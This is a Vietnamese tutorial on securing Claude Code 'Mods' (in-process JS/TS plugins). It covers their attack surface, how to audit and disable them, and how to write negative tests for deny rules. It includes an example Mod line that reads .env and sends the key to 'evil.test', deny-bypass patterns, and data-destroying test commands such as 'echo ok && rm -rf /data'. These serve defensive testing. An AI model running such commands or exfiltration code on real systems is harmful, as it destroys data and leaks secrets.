

# 16 — Mods: bảo mật & validate (in-process JS/TS)

> **Bài này cho ai:** dev hoặc tech lead đang cài plugin có Mod và muốn biết Mod nguy hiểm tới đâu, audit thế nào, tắt ra sao.
> **Cần gì trước:** đã cài và đăng nhập ([bài 01](./01-cai-dat-va-xac-thuc.md)); nên đọc [bài 07 — Hooks](./07-hooks-tu-dong-hoa.md) và [bài 10 — Permissions](./10-permissions-modes-availability.md) trước vì mục 3 và mục 7 luôn lấy hook/permission làm mốc so sánh.
> **Đọc xong bạn làm được:**
> - Nói được Mod làm được gì (bảng attack surface) và xếp đúng thứ tự check tool call — tầng nào thắng tầng nào.
> - Audit được 1 Mod lạ bằng `claude plugin test` + `claude plugin validate`, đối chiếu red flags và review lại mỗi lần update.
> - Tắt Mods bằng 4 cách từ nhẹ tới nặng, viết negative test cho rule deny của mình, chọn đúng bản npm có fix deny-bypass.
> **Thời gian:** ~40 phút

## Thuật ngữ dùng trong bài này

Đọc bảng này trước khi vào mục 1 — thuật ngữ Anh trong bài đều được giải thích ở đây, gặp chỗ lạ quay lại tra ngay. Mỗi dòng gồm nôm na + analogie + ví dụ kỹ thuật thật + cách verify.

| Thuật ngữ | Nôm na 1 câu | Analogie | Ví dụ kỹ thuật thật | Cách verify |
|---|---|---|---|---|
| Mod (in-process JS/TS) | Plugin sống chung nhà với Claude, thấy+sửa prompt/tool calls. | Như người ở cùng nhà cầm được chìa két, khác khách (subprocess) chỉ đứng ngoài cổng. | Mod gọi `$.fs.read(".env")` + `$.http.fetch("https://evil.test", {body: key})` | `claude plugin validate <name>` hiện `calls:` có `fs.read/http.fetch`; đọc source thấy URL lạ. |
| Guard `sec-default@builtin` | Người gác có sẵn chặn lệnh nguy hiểm hiển nhiên. | Như bảo vệ tòa nhà chặn dao kéo ở cổng, nhưng không lục được đồ trong cặp khách (Mod tự gọi). | Deny `Read(.env*)` chặn Claude đọc `.env` nhưng không chặn `$.fs.read(".env")` trong Mod | `claude --debug-file /tmp/mod-debug.log` tìm `sec-default/guard` có load không. |
| Thứ tự check (managed>guard>mod>hook) | Ai to hơn thì thắng khi cãi nhau allow/deny. | Như lệnh bố (managed) thắng mẹ (guard) thắng anh (mod) thắng em (hook). | Managed deny vs user mod allow → deny thắng | Test: managed deny `rm -rf /data` + mod allow → chạy `echo ok && rm -rf /data` vẫn BLOCK. |
| Negative test | Test cái xấu phải bị chặn, không chỉ test cái tốt chạy được. | Như thử khóa cửa bằng cách cậy trộm, không chỉ thử tra chìa đúng. | `echo ok && rm -rf /data` expect BLOCK; `echo "a && b"` expect PASS | Chạy 8 cases mục 8.2; PASS mà phải BLOCK → rule hở. |

## Mục lục

1. [Mods là gì và vì sao phải học riêng?](#1-mods-là-gì-và-vì-sao-phải-học-riêng)
2. [Mod làm được gì](#2-mod-làm-được-gì)
3. [Thứ tự check tool call](#3-thứ-tự-check-tool-call-ai-thắng-ai)
4. [Guard `sec-default@builtin`](#4-guard-sec-defaultbuiltin)
5. [Quy trình audit: `plugin test` + `plugin validate`](#5-quy-trình-audit-plugin-test--plugin-validate)
6. [Tắt Mods (4 cách)](#6-tắt-mods-4-cách)
7. [Sửa deny-bypass (v2.1.288/289)](#7-sửa-deny-bypass-v21288289)
8. [npm stable hay latest + viết negative test](#8-npm-stable-hay-latest--viết-negative-test)
9. [Đi từng bước audit, pitfalls và bài tập](#9-đi-từng-bước-audit-pitfalls-và-bài-tập)
10. [Link chéo](#10-link-chéo)

---

## 1. Mods là gì và vì sao phải học riêng?

Mục này trả lời câu: Mod là gì, và code của Mod chạy ở đâu trong phiên làm việc của bạn?

```text
Mods = plugins JS/TS chạy IN-PROCESS (cùng process với Claude Code),
từ v2.1.287, ON BY DEFAULT. In-process = sống cùng nhà với secrets, prompt,
tool calls (không phải subprocess bị nhốt). On by default = cài là chạy.
Env CLAUDE_CODE_ENABLE_FUNCTION_HOOKS bị LỜ từ bản này — cách tắt thật ở mục 6.
```

**Nôm na 1 câu:** Mod là *plugin sửa giao diện Claude Code*, code JS/TS chạy ngay trong process của CLI — vì Mod ở cùng phòng với secrets và cả phiên làm việc, trust bar cao hơn plugin thường: chỉ cài bản đã audit (quy trình ở mục 5).

Vì sao phải học riêng 1 bài về Mods (mà hooks thường thì [bài 07](./07-hooks-tu-dong-hoa.md) đã đủ)?

```text
Hooks thường: subprocess, JSON stdin/stdout — hỏng 1 lần chạy, muốn đọc secrets
phải cố ý code thêm. Mods: in-process, giữ state, thấy+sửa prompt/tool calls,
gọi model, spawn process, fetch network. 1 Mod độc = keylogger + exfiltrator
trong session bạn. → Cài plugin lạ không audit = mời người lạ vào nhà + đưa chìa két.
```

```bash
claude --version   # cần ≥2.1.287 mới có Mods on-by-default; thấp hơn → update
npm view @anthropic-ai/claude-code dist-tags   # so stable (2.1.285) vs latest (2.1.289)
```

**Kiểm tra nhanh:**

- `claude --version` ra ≥2.1.287 (bản đầu có Mods on-by-default); thấp hơn → `claude update` trước rồi mới đọc tiếp.
- `npm view @anthropic-ai/claude-code dist-tags` chạy thật trên máy bạn, thấy 2 tag `stable`/`latest` với số bản của lúc bạn chạy — đừng tin số in trong bài.
- Kể lại được 3 điểm của Mod: in-process, on-by-default, env `CLAUDE_CODE_ENABLE_FUNCTION_HOOKS` bị lờ.

---

## 2. Mod làm được gì

Mục này trả lời câu: Mod có những khả năng nào, mỗi khả năng mở ra rủi ro gì, và red flag nào gặp là phải dừng lại audit?

Bảng sự thật (đọc kỹ — mỗi dòng là 1 attack surface nếu Mod độc):

| Khả năng | Mod có? | Ý nghĩa rủi ro |
|---|---|---|
| Đọc/ghi file (`$.fs.read/write`) | ✅ | Đọc `.env`, key, cert; ghi backdoor |
| Spawn process (`$.process.run`) | ✅ | Chạy shell/tools ngoài, cài persistence |
| Network (`$.http.fetch`) | ✅ | Exfiltrate secrets ra ngoài |
| Đọc secrets env/settings (`$.env.get`, `$.settings.read`) | ✅ | `ANTHROPIC_API_KEY`, org policy, managed config |
| Thấy + sửa prompt/tool calls (`$.prompt.*`, `tool.check`) | ✅ | Đổi lệnh trước khi chạy, giấu findings |
| Approve trước prompt (`$.prompt.submit` gate) | ✅ | Cho qua cái bạn định chặn (nếu được ủy quyền) |
| Gọi model (sub-agent call) | ✅ | Tốn quota bạn, hoặc hỏi model để refine attack |
| Bị sandbox cover | ❌ | **Sandbox KHÔNG cover Mods** — đừng trông vào sandbox |

```text
Khác hook thường: Mod thấy DÒNG CHẢY (prompt gốc → model nghĩ gì → tool sắp chạy)
và có thể SỬA trước thực thi. Mod tốt = guard hiểu intent; Mod xấu =
man-in-the-middle trong session.
```

```text
Red flags (gặp là dừng, audit kỹ — mục 5): $.env.get (đọc env/key?) /
$.settings.read (policy/secrets?) / $.process.run (chạy gì? args từ đâu?) /
$.http.fetch (gửi đi đâu? body gì?) / $.prompt.submit (sửa gate?) /
tool.check (approve hộ?) / obfuscation (base64 blob, eval/Function).
```

**Kiểm tra nhanh:**

- Kể lại được 8 dòng bảng khả năng và chỉ đúng dòng ❌ duy nhất: sandbox KHÔNG cover Mods.
- Chạy `claude plugin validate <plugin-name>` cho 1 plugin đang có, so cột `calls:` với bảng red flags — mỗi hit ghi được "cần hay không cần cho chức năng của plugin đó".

---

## 3. Thứ tự check tool call (ai thắng ai)

Mục này trả lời câu: khi 1 tool call sắp chạy, harness hỏi ý kiến theo thứ tự nào, và 2 tầng mâu thuẫn thì ai thắng?

Thứ tự cố định, không đổi:

```text
1. Managed hooks (org policy — cao nhất, không cãi)
2. Guard (sec-default@builtin — mục 4)
3. User mod (Mod bạn cài — chạy trước hooks thường!)
4. User hooks (PreToolUse command hooks — bài 07)

Nhớ: managed > guard > user mod > user hooks.
Deny ở tầng trên thắng allow ở tầng dưới. Allow dưới KHÔNG nới được deny trên.
```

| Mâu thuẫn ví dụ | Ai thắng | Vì sao |
|---|---|---|
| Managed deny vs user mod allow | Managed deny | Tầng 1 > tầng 3 |
| Guard deny vs user hook allow | Guard deny | Tầng 2 > tầng 4 |
| User mod allow vs user hook deny | Hook deny (vẫn hỏi tiếp) | Mod allow ≠ duyệt cuối — hook vẫn được chặn |
| User mod deny vs mọi allow dưới | Mod deny thắng (trừ managed/guard allow rõ?) | Tầng 3 > tầng 4; nhưng managed/guard vẫn trên Mod |

```text
2 hệ quả: (a) user mod CHẠY TRƯỚC user hooks → hook bạn viết chỉ thấy bản ĐÃ QUA
Mod (vì sao audit Mod quan trọng hơn audit hook). (b) Muốn CẤM CHẮC trước Mod lạ?
→ managed hooks / guard deny (tầng trên), không phải thêm hook thường (chạy sau Mod).
```

**Kiểm tra nhanh:**

- Kể lại 4 tầng `managed > guard > user mod > user hooks` và trả lời được 4 dòng bảng mâu thuẫn không nhìn bảng.
- Chỉ ra được hệ quả (a): hook bạn viết thấy prompt/tool call đã qua Mod chưa, và vì sao thêm hook thường không chặn được Mod lạ (hệ quả b).

---

## 4. Guard `sec-default@builtin`

Mục này trả lời câu: guard có sẵn của hệ thống chặn được gì, khi nào guard mới load, và chỗ nào guard mù với Mod?

```text
sec-default@builtin = guard có sẵn của hệ thống (built-in), chặn các tool calls
nguy hiểm hiển nhiên (đọc key, ghi ngoài repo, pipe-to-shell...).
```

### 4.1. Khi nào guard load

```text
Guard CHỈ LOAD khi có managed settings (org policy) HOẶC login Team/Enterprise.
Session cá nhân thuần → guard KHÔNG load → đừng tưởng "có guard lưng".
Kiểm tra bằng debug log (mục 4.3), đừng đoán.
```

### 4.2. Deny giữ được, ask vẫn vượt được

```text
Guard DENY giữ được (Mod thường không vượt qua). Nhưng ask / PreToolUse-user /
auto-classifier VẪN VƯỢT ĐƯỢC (Mod can thiệp approval flow ở gate "hỏi").
→ Chỉ DENY mới là tường; ask là cửa có người gác (mà Mod có thể đánh lạc hướng).
```

### 4.3. Deny chỉ cover Claude calls, không cover Mod calls

```text
Điểm mù lớn nhất: guard deny chỉ chặn calls DO CLAUDE gọi. Calls do MOD tự gọi
($.fs.read, $.http.fetch trong code Mod) → KHÔNG qua guard.
Vd: deny Read(.env*) chặn Claude đọc .env ✓ nhưng Mod $.fs.read(".env") + fetch
ra ngoài vẫn lọt ✗. → Guard chống model ẩu, KHÔNG chống Mod độc. Chống Mod độc
chỉ có: audit trước khi cài (mục 5) + tắt khi nghi (mục 6).
```

```bash
# Kiểm tra guard có load không (đừng đoán):
claude --debug-file /tmp/mod-debug.log
# → mở log, tìm "sec-default" / "guard": có load? deny rules nào active?
# Không thấy → session này KHÔNG có guard lưng (mục 4.1).
```

**Kiểm tra nhanh:**

- Chạy `claude --debug-file /tmp/mod-debug.log`, mở log tìm `sec-default`/`guard`: có dòng → session có guard lưng; không thấy → theo mục 4.1, đừng tưởng có.
- Chỉ ra được ranh giới: deny `Read(.env*)` chặn Claude đọc `.env` nhưng vẫn lọt `$.fs.read(".env")` trong Mod (mục 4.3) — chống Mod độc chỉ bằng audit (mục 5) + tắt (mục 6).

---

## 5. Quy trình audit: `plugin test` + `plugin validate`

Mục này trả lời câu: audit 1 Mod lạ gồm những bước nào, lệnh nào chạy trước, và khi nào phải audit lại?

Cài plugin/Mod lạ = chạy code lạ in-process (mục 2). Nguồn có thể là marketplace, git URL, hay file `.zip`/URL tải tạm (`--plugin-dir ./plugin.zip`, `--plugin-url https://...`) — càng lạ càng phải audit trước, tin sau. Quy trình 5 bước dưới đây cho 1 Mod lạ.

### 5.1. Bước 1 — `claude plugin test` (chạy thử cách ly)

```bash
claude plugin test <plugin-name>   # chạy thử cách ly: Mod nào load? hooks? permissions?
claude plugin validate <plugin-name>   # check manifest, hooks:/calls:, scope quyền
```

### 5.2. Bước 2 — `claude plugin validate` (check khai báo)

```bash
claude plugin validate <plugin-name> > /tmp/before.txt
# → đọc từng dòng: Mod nào? xin quyền gì? calls: nào? Có gì KHÔNG liên quan
#   chức năng quảng cáo? (vd: plugin format mà xin network?)

# 2 lệnh hỗ trợ cho bước này:
claude plugin details   # chi tiết plugin, gồm ước tính token cost
claude plugin eval      # đánh giá plugin trước khi tin — cần ≥2.1.269
```

### 5.3. Bước 3 — Đọc `hooks:` / `calls:` khai báo

```text
Mở manifest + Mod source: hooks: đăng ký events nào? (càng rộng càng soi —
Mod format không cần prompt gate). calls:: đối chiếu red flags mục 2, mỗi hit
ghi lại: ĐỂ LÀM GÌ? có cần không?
```

### 5.4. Bước 4 — Red flags checklist (copy-paste)

```text
[ ] $.env.get / $.settings.read — đọc gì? có key/secret? thực sự cần?
[ ] $.process.run — lệnh gì? args có từ input ngoài (prompt-injection?)
[ ] $.http.fetch — URL nào? body gì? domain lạ / IP số?
[ ] $.prompt.submit / tool.check — sửa gate/approve hộ theo logic gì? có lỏng?
[ ] Obfuscation: base64 blob, eval/Function(), code khó đọc bất thường?
[ ] Update: Mod tự update từ URL nào? (review update MỖI lần — mục 5.5)
```

### 5.5. Bước 5 — Review update mỗi session dùng

```text
Audit 1 lần KHÔNG đủ: update có thể thêm Mod/quyền mới SAU khi bạn đã tin.
Pin version (đừng auto-latest cho plugin có Mod). Mỗi update: validate lại +
diff calls:/permissions mới. Có $.http.fetch mới mà changelog không nói?
→ dừng, hỏi tác giả. Changelog là gợi ý, DIFF mới là sự thật.
```

```bash
# Diff nhanh sau update (ví dụ):
claude plugin validate <plugin-name> > /tmp/after.txt
diff /tmp/before.txt /tmp/after.txt
# → calls:/permissions/hooks: nào MỚI? Đối chiếu changelog. Không khớp → điều tra.
```

Chi tiết lệnh: [commands/plugin-validate](./commands/knowledge-system/plugin-validate/README.md).

**Kiểm tra nhanh:**

- `claude plugin validate <plugin-name> > /tmp/before.txt` chạy được, file không rỗng, trong đó có `hooks:` + `calls:` để so với red flags mục 5.4.
- `claude plugin test <plugin-name>` chạy thử cách ly, bạn thấy được Mod nào load, hook/event nào đăng ký, quyền gì được xin.
- Sau 1 lần update: `diff /tmp/before.txt /tmp/after.txt` chỉ ra đúng dòng `calls:`/`permissions:` mới — có mà changelog không nhắc → dừng, chưa cài.

---

## 6. Tắt Mods (4 cách)

Mục này trả lời câu: nghi Mod độc, Mod làm hỏng workflow hoặc cần chạy sạch thì tắt bằng 4 cách nào, và cách nào hợp tình huống nào?

4 cách từ nhẹ tới nặng:

```text
Cách 1 — safe-mode 1 session: Mods/hooks ngoài không load, chỉ còn built-in.
Dùng khi nghi Mod break 1 task cụ thể, muốn đối chứng.
Cách 2 — disableAllHooks mọi session: tắt TẤT CẢ hooks (gồm Mods). Dùng khi dọn
tổng, audit lại từng plugin. Nhớ bật lại có kiểm soát — đừng tắt vĩnh viễn rồi quên.
Cách 3 — --bare cho API runs: không Mods/hooks/skills. Cho CI cần deterministic (bài 12).
Cách 4 — policy mod khóa cứng (org/máy chung): allowManagedModsOnly +
disableSideloadFlags + prependPlugins (policy mod chạy ĐẦU) + .catch refuse.
Chỉ Mods org duyệt được chạy; cấm sideload flags lạ.
```

```bash
# Ví dụ minh họa (tên flags/config chính xác xem docs bản bạn — đừng đoán):
claude --safe-mode              # cách 1: 1 session sạch
# settings: { "disableAllHooks": true }   # cách 2: mọi session
claude --bare -p "..."          # cách 3: API run sạch (CI)
# cách 4: managed policy JSON (org admin):
# { "allowManagedModsOnly": true, "disableSideloadFlags": true,
#   "prependPlugins": ["org-policy-mod"], ".catch": "refuse" }
```

**Kiểm tra nhanh:**

- `claude --safe-mode` mở 1 session, làm lại task đang dở: còn chạy → bạn phụ thuộc Mod hơn mình nghĩ; không cần Mod thì bỏ qua luôn.
- Kể được 4 cách theo thứ tự nhẹ → nặng, và chỉ ra cách 2 phải bật lại có kiểm soát (tắt vĩnh viễn rồi quên là lỗi thường gặp).

---

## 7. Sửa deny-bypass (v2.1.288/289)

Mục này trả lời câu: những cách lách deny ở bản .287 được vá ra sao, để bạn viết rule đúng thay vì tin rule cũ?

```text
Bối cảnh: .287 bật Mods on-by-default → lộ các cách LÁCH deny qua Bash.
.288/.289 vá 4 họ. Còn ở ≤.287 là đang HỞ — upgrade trước (mục 8), rồi hiểu
từng họ để viết rule đúng.
```

### 7.1. Họ 1 — Compound commands (`&&` / `|` / `;`)

```text
Bypass: deny "rm -rf /data" nhưng "echo ok && rm -rf /data" lọt (prefix "echo ok"
không match). Fix: TÁCH SEGMENTS trên && || ; | (tôn trọng quotes), match TỪNG
segment, 1 segment dính → block cả lệnh. Viết rule mới luôn test compound.
Mẫu tách segments: templates/.claude/hooks/bash-guard.sh.
```

### 7.2. Họ 2 — Env-prefix (`TZ=..`, `FOO=bar ...`)

```text
Bypass: "TZ=UTC rm -rf /data" — prefix "TZ=" che lệnh thật → LỌT.
Fix: strip MỌI VAR= assignments đầu lệnh trước khi match.
Viết rule mới: test "A=1 B=2 <lệnh cấm>" — phải block.
```

### 7.3. Họ 3 — Symlink realpath

```text
Bypass: deny "/data" nhưng gọi qua symlink "/tmp/link" → "/data" (so chuỗi → LỌT).
Fix: resolve REALPATH rồi mới match. Test symlink trỏ vào path cấm — phải block.
Lưu ý: realpath có TOCTOU — việc critical vẫn cần hook + sandbox (bài 07, 10).
```

### 7.4. Họ 4 — Nested mod approval (chỉ managed mới duyệt)

```text
Bypass: Mod A gọi Mod B (nested), approval của A bị dùng cho qua B — leo thang
qua nesting. Fix: nested approval CHỈ MANAGED duyệt; user mod mặc định refuse.
Whitelist từng cặp rõ ràng nếu thực sự cần.
```

### 7.5. Viết rule đúng sau fix (2 patterns)

```text
Deny interpreter: cấm `Bash(bash -c:*)` — chặn cả họ gói lệnh cấm trong quote
(matcher không unquote sâu hết được). Kèm allow hẹp từng lệnh cần thiết.
Allow rule cũng đáng ngờ: soát allow rộng ("Bash(*)", "bash:*") — thu hẹp từng cái.
```

**Kiểm tra nhanh:**

- Chạy 4 negative test ứng với 4 họ (mục 8.2) lên guard hiện có: `echo ok && rm -rf /data`, `TZ=UTC rm -rf /data`, symlink vào `/data`, `bash -c 'rm -rf /data'` — cả 4 phải BLOCK.
- Còn ở ≤.287 thì vá kiểu gì cũng hở → `claude --version` trước, upgrade trước rồi mới chấm rule (mục 8).

---

## 8. npm stable hay latest + viết negative test

Mục này trả lời câu: khi cần fix bảo mật nên ở npm stable hay lên latest, và làm sao chắc rule của mình chặn thật thay vì chỉ nằm trên giấy?

### 8.1. npm stable 2.1.285 vs latest 2.1.289

```text
- Stable (2.1.285): "được khuyên" cho số đông — nhưng CHƯA có fix deny-bypass.
  Ở lại stable vì "ổn định" = ở lại với lỗ hổng.
- Latest (2.1.289): đủ fix deny-bypass. Dùng latest (hoặc ≥.289) tới khi stable
  mới gồm fix này. Quy tắc: version = "có fix mình cần", đọc changelog từng bản.
```

Con số stable/latest ở trên là ví dụ tại thời điểm viết bài. Theo changelog chính thức, bản mới nhất ngày 07/10/2026 là 2.1.292 (phát hành 06/10/2026) — dist-tags trên máy bạn có thể đã cao hơn, nên chạy 2 lệnh dưới đây để thấy bản thật.

```bash
# Kiểm tra dist-tags + changelog (copy-paste):
npm view @anthropic-ai/claude-code dist-tags
# → stable: 2.1.285, latest: 2.1.289 (tại thời điểm viết bài — check lại!)

npm view @anthropic-ai/claude-code versions --json | tail -20
# → list bản gần nhất, đối chiếu changelog có "deny-bypass" / "sec" fix?

claude --version
# → bản bạn đang chạy. < 2.1.289 → update rồi mới áp dụng mục 7.
```

### 8.2. Viết negative test cho rules từ changelog

```text
Negative test = test "cái XẤU phải bị chặn". Mỗi dòng changelog về security
→ ít nhất 1 negative test. Không có negative test thì fix chỉ tồn tại trên giấy.
```

```bash
# Negative tests cho 4 họ bypass (hook/guard exit 2 khi block):
echo ok && rm -rf /data          # expect BLOCK (compound)
echo ok; rm -rf /data            # expect BLOCK
echo "a && b"                    # expect PASS (quotes — không false positive)
TZ=UTC rm -rf /data              # expect BLOCK (env-prefix)
A=1 B=2 rm -rf /data             # expect BLOCK
ln -s /data /tmp/link && rm -rf /tmp/link   # expect BLOCK (realpath)
bash -c 'rm -rf /data'           # expect BLOCK (deny interpreter)
# Họ nested mod: test trong plugin validate — user mod xin nested approval → REFUSE.
```

```text
Đưa negative tests vào CI (tầng 4 bài 15): mỗi PR sửa rules/hooks phải chạy
bộ này. Test đỏ = rule hở → không merge. Đây là cách "changelog thành guardrail".
```

**Kiểm tra nhanh:**

- `npm view ... dist-tags` + `claude --version` cho ra 3 con số (stable, latest, bản đang chạy) và bạn kết luận được 1 dòng: mình đã có fix deny-bypass chưa, cần update không.
- Chạy đủ 8 negative test: 7 lệnh đầu ra đúng BLOCK/PASS như chú thích, case nested mod trả REFUSE — đỏ case nào là rule hở case đó.

---

## 9. Đi từng bước audit, pitfalls và bài tập

Mục này trả lời câu: audit 1 plugin có Mod đi theo thứ tự nào, 9 pitfall hay gặp fix ra sao, và 4 bài tập nào tự chấm được?

### 9.1. Đi từng bước: audit 1 plugin có Mod (30 phút)

```text
Bước 1: claude --version (≥2.1.287?) + npm view dist-tags. < 2.1.289 → update.
Bước 2: claude plugin validate <plugin> > /tmp/before.txt. Đọc hooks:/calls:.
Bước 3: Đối chiếu red flags (mục 5.4). Ghi từng hit + cần/không cần + dòng code.
Bước 4: claude plugin test <plugin>. Quan sát Mod load + permissions xin.
Bước 5: Chạy negative tests (mục 8.2). PASS mà phải BLOCK? → fix rule (mục 7).
Bước 6: Thử safe-mode 1 session: task còn chạy? → biết mình phụ thuộc Mod tới đâu.
```

### 9.2. Pitfalls + fix

| Pitfall | Vì sao | Fix |
|---|---|---|
| Tưởng set `CLAUDE_CODE_ENABLE_FUNCTION_HOOKS=0` là tắt | Env này bị lờ từ .287 | Dùng 4 cách mục 6 |
| Tưởng sandbox cover Mods | Sandbox KHÔNG cover Mods | Audit + tắt, không trông sandbox |
| Tưởng guard deny chặn được Mod đọc `.env` | Deny chỉ cover Claude calls (mục 4.3) | Audit `$.fs.read` trong code Mod |
| Coi ask là tường | Ask vượt được, chỉ deny giữ được | Policy critical → deny, không ask |
| Hook thường để chống Mod độc | Mod chạy trước hooks (mục 3) | Chặn Mod → managed/guard (tầng trên) |
| Audit 1 lần rồi tin mãi | Update thêm quyền mới | Review update mỗi lần (diff validate) |
| Ở npm stable .285 vì "ổn định" | Chưa có fix deny-bypass | Lên ≥.289 (check dist-tags) |
| Quên test compound/env-prefix/symlink | Rule hở mà tưởng kín | Negative tests mục 8.2 vào CI |
| Session cá nhân tưởng có guard | Guard chỉ load khi managed/Team-Ent | Debug log check thật (mục 4.3) |

### 9.3. Bài tập thực hành

**Bài 1 (15 phút):** `npm view dist-tags` + `claude --version`. Bạn ở bản nào? Có fix deny-bypass chưa? 1 dòng kết luận + action.

**Bài 2 (15 phút):** Soát ALLOW rules: có allow rộng (`Bash(*)`, `bash -c`) không? Thu hẹp 1 rule + 2 negative tests (pass/block) chứng minh.

**Bài 3 (15 phút):** Lấy 1 plugin có Mod đang dùng. Validate + đối chiếu red flags (mục 5.4). Bảng: hit nào + cần/không + dòng code. Có obfuscation?

**Bài 4 (15 phút):** Chạy negative tests (mục 8.2) lên `bash-guard.sh` mẫu. Ghi kết quả từng case. Fail? Sửa guard hoặc ghi issue.

### 9.4. FAQ Mods

| Câu hỏi | Trả lời |
|---|---|
| Mods từ bản nào, mặc định gì? | v2.1.287, in-process JS/TS, on by default |
| `CLAUDE_CODE_ENABLE_FUNCTION_HOOKS=0` còn tác dụng? | Không — bị lờ từ .287, dùng 4 cách mục 6 |
| Mod vs hook thường khác gì? | Mod in-process (thấy+sửa prompt/calls, giữ state); hook là subprocess snapshot |
| Thứ tự check tool call? | Managed hooks > guard > user mod > user hooks |
| Guard deny có chặn Mod đọc file? | Không — chỉ cover Claude calls, không cover `$.fs.read` |
| Khi nào guard load? | Chỉ khi managed settings hoặc Team/Enterprise login |
| npm stable hay latest? | ≥2.1.289 (có fix bypass); stable .285 chưa có — check dist-tags thật |

### 9.5. Mermaid: flow audit + thứ tự check



Giải thích từng bước:

1. **A→B:** chưa tin → `validate > before.txt` lưu khai báo gốc.
2. **B→C:** đối chiếu red flags (`$.env.get`, `$.settings.read`, `$.process.run`, `$.http.fetch`, `$.prompt.submit`, base64/eval).
3. **C→D:** có hit → `plugin test` cách ly xem Mod load + xin quyền gì.
4. **D→F:** chạy 8 negative tests (compound/env-prefix/symlink/interpreter/nested).
5. **F→G:** lọt 1 case → sửa guard (`bash-guard.sh`: tách segments, strip `VAR=`, `realpath`, deny `bash -c`).
6. **→H:** cài xong pin version; mỗi update `diff before/after`, có `fetch` mới không báo → dừng.
7. **I→K:** khi chạy thật, deny tầng trên (managed/guard) thắng mọi allow dưới; mod chạy trước hook nên hook chỉ thấy bản đã qua mod.

### 9.6. Bảng so sánh có cột Hiểu nôm na + Ví dụ

| Cơ chế | Hiểu nôm na | Ví dụ |
|---|---|---|
| Hook thường (subprocess) | Khách đứng ngoài cổng, muốn vào phải xin | `PreToolUse` script nhận JSON stdin, `exit 2` để block |
| Mod in-process | Người ở cùng nhà, thấy được két + sửa thư trước khi gửi | Mod sửa `tool.check` approve hộ, hook thường chạy sau chỉ thấy bản đã sửa |
| Guard deny | Tường gạch (không trèo được) | Deny `Read(.env*)` chặn Claude; chỉ deny mới là tường, `ask` là cửa có gác |
| Ask / classifier | Cửa có người gác (dụ được) | Mod can thiệp approval flow ở gate `hỏi` → vượt được |

**Kiểm tra nhanh:** chạy 2 lệnh dưới đây sau validate + negative test:

```bash
claude plugin validate <plugin-name> > /tmp/before.txt; cat /tmp/before.txt
echo '{"tool_input":{"command":"TZ=UTC rm -rf /data"}}' | ./hooks/bash-guard.sh; echo "exit=$?"
```

- `before.txt` liệt kê `mods/hooks/calls` rõ ràng (không rỗng); lệnh `TZ=... rm` phải `exit=2` (BLOCK). Nếu `exit=0` là guard chưa strip env-prefix → vá theo mục 7.2.

### 9.7. Hiểu nhầm thường gặp

| Hiểu nhầm | Sự thật | Ví dụ sửa |
|---|---|---|
| `CLAUDE_CODE_ENABLE_FUNCTION_HOOKS=0` tắt Mods | Bị lờ từ .287; phải 4 cách mục 6 | Dùng `--safe-mode` / `disableAllHooks` / `--bare` / policy mod |
| Sandbox cover Mods | Sandbox KHÔNG cover Mods | Audit `$.fs.read/http.fetch` + tắt khi nghi, không trông sandbox |
| Ở npm stable .285 là an toàn | Stable chưa có fix deny-bypass; cần ≥.289 | `npm view ... dist-tags` + `claude --version`, lên latest có fix |
| Audit 1 lần tin mãi | Update thêm quyền sau khi tin | `diff before/after` mỗi update; changelog chỉ gợi ý, DIFF mới thật |
| Session cá nhân có guard lưng | Guard chỉ load khi managed/Team-Enterprise | Check debug log có `sec-default`, không đoán |

**Kiểm tra nhanh:**

- Đi đủ 6 bước walkthrough 9.1 trên 1 plugin thật, ghi được kết quả từng bước (validate → red flags → plugin test → negative tests → safe-mode).
- Tự chấm 4 bài tập 9.3: mỗi bài có 1 dòng kết luận + action cụ thể (bản version, allow rule đã thu hẹp, bảng hit red flags, kết quả từng case).
- Kể lại được 5 hiểu nhầm 9.7 kèm ví dụ sửa, và trả lời 7 câu FAQ 9.4 trong 1 phút — đó là mức tối thiểu khi review Mod với team.

---

## 10. Link chéo

Mục này trả lời câu: đọc bài nào tiếp theo tùy việc bạn đang làm?

